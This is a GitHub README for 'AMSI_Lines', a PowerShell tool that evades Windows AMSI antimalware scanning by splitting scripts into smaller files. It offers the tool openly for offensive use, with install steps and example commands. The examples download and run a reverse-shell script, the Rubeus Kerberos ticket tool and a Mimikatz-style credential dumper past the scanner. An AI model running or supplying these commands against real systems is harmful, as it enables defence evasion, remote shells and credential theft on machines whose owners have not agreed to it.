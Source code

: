 # AMSI_Lines

*Bypass AMSI By Dividing files  into multiple smaller files*
Blog post: https://x4sh3s.github.io/posts/Divide-and-bypass-amsi/

### How To Use It

1. Clone The repository: `git clone https://github.com/x4sh3s/AMSI_Lines.git`
2. import the module
```powershell
PS C:\AMSI_Lines>import-module AMSI.ps1
```
3. execute the function `AMSI_Lines` : `AMSI_Lines -File "Url of the File" -Command "Command to be executed directly"`

### Examples:

```powershell
AMSI_Lines -File http://127.0.0.1:8080/revshell.ps1 -Commands "-LHOST MyIp -Port 9001"
AMSI_Lines # This Will Execute Invoke-Rubeus By default with '-h' parameter
AMSI_Lines -file "https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1" -Commands "invoke-rubeus asktgt"
AMSI_Lines -file "http://127.0.0.1:8001/Invoke-Ninikatz.ps1" -Commands "invoke-ninikatz -command coffee"
```
![image](https://user-images.githubusercontent.com/65988560/206858344-097a4dce-6e78-4749-b204-1ba9614ad9f2.png)
